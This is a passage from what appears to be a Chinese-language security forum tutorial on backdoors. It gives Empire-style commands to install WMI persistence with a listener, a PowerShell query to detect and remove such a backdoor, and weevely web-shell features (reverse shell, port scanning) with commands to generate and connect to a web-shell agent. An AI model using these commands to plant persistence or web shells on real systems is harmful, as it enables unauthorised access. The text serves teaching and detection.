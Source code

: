 先进行搜索

```csharp
searchmodule wmi
```

是有多个模块的

```csharp
usemodule persistence/elevated/wmi
info
set DailyTime 16:10
set Listener dayu
run
```

检测后门
----

在powershell下

```csharp
Get-WmiObject -Namespace root\Subscription -Class CommandLineEventConsumer -FILTER "Name='Updater'"
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6b6189d08d6511c6175d393e060e034aa3a8ca52.png)  
这样就是没有的

清除WMI后门得到方法
-----------

删除自动运行列表中的恶意WMI条目  
在powershell中用`get-wmiobject`命令删除与WMI持久化的组件

web后门
=====

weevely后门
---------

### 功能

```csharp
1.执行命令和测览远程文件
2.检测常见的服务器配置问题
3.创建 TCP Shell 和 Reverse Shell
4.打扫描端口
5.安装HTTP代理
```

### 使用

weevely &lt;url&gt; &lt;password&gt; \[cmd\] #连接一句话  
weevely session &lt;path&gt; cmd #加载会话文件  
weevely generate &lt;password&gt; &lt;path&gt; # 生成后门代理，一般用这个

webacco后门
---------
